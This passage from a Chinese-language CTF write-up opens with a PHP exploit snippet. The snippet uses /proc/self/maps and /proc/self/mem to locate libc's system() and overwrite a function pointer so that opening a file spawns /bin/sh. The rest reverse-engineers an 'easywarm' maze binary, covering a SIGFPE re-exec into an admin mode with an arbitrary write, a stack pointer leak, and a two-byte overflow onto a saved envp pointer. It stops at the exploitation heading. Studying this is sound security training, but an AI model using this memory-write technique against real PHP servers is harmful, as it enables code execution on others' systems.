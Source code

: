 `}`

$open_php = parseelf(‘/proc/self/exe’, true);

$file = new SplFileObject(‘/proc/self/maps’, “r”);

$maps = $file-&gt;fread(20000);

$r = “/usr/lib/x86_64-linux-gnu/libc.so.6”;

$pie_base = hexdec(explode(‘-‘, $maps)[0]);

list($system_offset, $open_offset) = parseelf($r);

$mem =  new SplFileObject(‘/proc/self/mem’, ‘rb’);

$mem-&gt;fseek($pie_base + $open_php);

$open_addr = unp($mem-&gt;fread(8));

$libc_start = $open_addr – $open_offset;

$system_addr = $libc_start + $system_offset;

$mem =  new SplFileObject(‘/proc/self/mem’, ‘wb’);

$mem-&gt;fseek($pie_base + $open_php);

if($mem-&gt;fwrite(packlli($system_addr))) `{`

    $t =new SplFileObject(‘/bin/sh’);

`}`

注： 我们其实已经可以通过 SplFileObject 函数读flag了。

**easywarm**

**逆向分析**

题目实现的功能大概有：
1. 当程序带 666 参数启动时，进入所谓的 admin mode，实现了一个一次任意地址写最多 144 字节的任意不含换行符的内容，然后调用 exit() 的功能。
1. 当程序带 000 参数启动时，会保存 envp 和 argv 的指针到 .bss 上，并开始一个菜单形式的迷宫游戏。
1. 当程序收到 SIGFPE 信号的时候，会使用保存的 envp 和 argv 换为 666 参数 execve 自身，即重新运行程序并进入 admin mode 的逻辑。
1. 迷宫游戏可以指定大小和复杂度，大小最大 32，复杂度为 1 到 5。
<li class="MsoNormal" style="mso-margin-top-alt: auto; mso-margin-bottom-alt: auto; text-align: left; mso-pagination: widow-orphan; mso-list: l1 level1 lfo3; tab-stops: list 36.0pt;">
游戏目的为控制 👴 表示的玩家走到 🚩 表示的终点处，墙不能穿过，操作只有四方向。操作序列长度至多为 (大小+4)/复杂度/2+80 个字符。
</li>
<li class="MsoNormal" style="mso-margin-top-alt: auto; mso-margin-bottom-alt: auto; text-align: left; mso-pagination: widow-orphan; mso-list: l1 level1 lfo3; tab-stops: list 36.0pt;">
迷宫通关后，程序会泄露出一个栈指针的低 (大小+4)/复杂度/2 位，上限为 16 位，在大小为 28 和复杂度为 1 时取到。
</li>
1. 在菜单输入 1638 （0x666），会进行一次除 0 操作，触发 SIGFPE。由于 Hex-Rays 激进的忽略没有用的算术操作的特性，默认不会在反编译中显示出来，可以通过调整 Options -&gt; Analysis options 2 -&gt; 选中 Preserve potential divisions by zero 解决（对于经常分析可能有诈的程序的人，建议直接在 hexrays.cfg 里把这个调整为默认选中）。
1. 游戏开始前会允许输入最多 12 字节的名字，放在栈上。
此外，还有一些不在明面上的东西：
<li class="MsoNormal" style="mso-margin-top-alt: auto; mso-margin-bottom-alt: auto; text-align: left; mso-pagination: widow-orphan; mso-list: l0 level1 lfo4; tab-stops: list 36.0pt;">
3 号功能读入玩家的操作序列的时候，在大小为 32 ，复杂度为 1 时，至多可以读入 98 个字符，而 bss 上用来存玩家操作序列的数组长度只有 96，可以溢出两字节。这个数组后面放的恰好是之前保存的 envp 指针。
</li>
1. 游戏开始前输入的名字在栈上恰好有一个残留的指针指向它，并且紧接着后面恰好是个 nullptr。
**利用**
